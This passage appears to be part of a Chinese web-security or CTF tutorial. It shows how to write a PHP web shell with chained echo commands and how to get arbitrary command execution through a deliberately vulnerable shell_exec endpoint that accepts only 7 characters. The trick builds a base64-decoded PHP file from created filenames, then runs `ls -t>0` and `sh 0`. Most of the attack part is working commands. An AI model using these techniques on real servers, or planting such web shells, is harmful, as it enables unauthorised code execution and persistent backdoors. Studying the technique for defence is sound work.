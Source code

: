 ```
echo \<?php >1
echo eval\(>>1
echo \$_GET>>1
echo \[1\]>>1
echo \)\;?>>1
```

3. 7位可控字符下的任意命令执行

1>a或者w>b分别可以创建a和b两个空文件夹。

ls>c会将目录下面的文件名写入到c文件中；ls -t>0会将文件名按照创建的时间倒叙写入0文件中。并且自动换行。

\作为转义符，转义之后的'\'是用来换行分隔，也就是换行也是连接的。

```
ca\
t
这就代表cat
```

例如这样的代码：

```
<?php
if(strlen($_GET[1])<8){
     echo shell_exec($_GET[1]);
}
?>
```

假设我产要写入<?php echo phpinfo();

echo PD9waHAgcGhwaW5mbygpOw== | base64 -d >1.php

```
w>hp
w>1.p\\
w>d\>\\
w>\-\\
w>e64\\
w>bas\\
w>=\|\\
w>w=\\
w>gpO\\
w>mby\\
w>aW5\\
w>Ghw\\
w>Agc\\
w>waH\\
w>PD9\\
w>o\ \\
w>ech\\

ls -t>0

sh 0
```
